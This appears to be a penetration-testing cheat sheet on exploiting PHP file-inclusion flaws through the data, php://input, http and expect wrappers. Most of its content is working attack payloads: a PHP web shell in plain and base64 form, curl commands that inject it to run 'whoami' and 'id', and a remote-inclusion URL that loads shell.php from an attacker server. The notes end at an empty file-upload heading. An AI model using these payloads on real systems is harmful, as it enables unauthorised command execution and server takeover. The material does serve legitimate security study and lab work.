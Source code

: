 ```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

Basic PHP web shell with base64 encoding:

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64

http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

With CURL:

```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

### Input wrapper

The [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code.  

The input wrapper also depends on the allow_url_include setting

The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

 
### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```


### Expect wrapper

The [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper allows us to directly run commands through URL streams. With Expect we don't need to provide a web shell, as it is designed to execute commands. It needs to be manually installed and enabled on the back-end server.

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```


## Uploading a file

### Image upload
